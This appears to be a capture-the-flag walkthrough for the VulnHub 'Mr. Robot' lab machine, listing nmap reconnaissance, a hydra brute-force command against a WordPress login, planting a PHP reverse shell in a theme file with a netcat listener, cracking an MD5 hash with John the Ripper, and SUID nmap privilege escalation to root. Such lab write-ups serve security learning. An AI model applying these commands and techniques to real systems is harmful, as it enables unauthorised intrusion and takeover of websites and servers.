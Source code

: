 # VulnHub – Mr. Robot Walkthrough

## Target IP
`10.129.1.17`

## Tools Used
- Nmap
- Hydra
- Netcat
- Burp Suite
- WordPress
- John the Ripper

## Steps Taken

### 1. Initial Recon

  ```bash
  nmap -sC -sV 10.129.1.17
  ```

Discovered: Port 80, Port 443

## 2. Gained Access
Brute-forced WordPress login with hydra

  ```bash

hydra -l elliot -P rockyou.txt 10.129.1.17 http-form-post "/wp-login.php:user=^USER^&pass=^PASS^&wp-submit=Log In:F=incorrect"
  ```
Username: elliot, Password: ER28–0652

## 3. Reverse Shell

Logged into WordPress admin

Edited `404.php` theme file and pasted a PHP reverse shell

Set up a listener:

  ```bash
nc -lvnp 4444
  ```

Listener caught reverse shell from daemon

## 4. Privilege Escalation
Found MD5 hash → Cracked hash (c3fcd3d76192e4007dfb496cca67e13b) with John → Password: abcdefghijklmnopqrstuvwxyz

  ```bash
john --format=raw-md5 hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
  ```

Switched to user robot

  ```bash
su robot
  ```

Exploited SUID nmap --interactive to escalate to root

## 5. Captured All Flags

  ```bash
cat /root/key-2-of-3.txt
  ```

  ```bash
cat /root/key-3-of-3.txt
  ```

## Flag Summary

key-1-of-3.txt

key-2-of-3.txt

key-3-of-3.txt

Rooted.
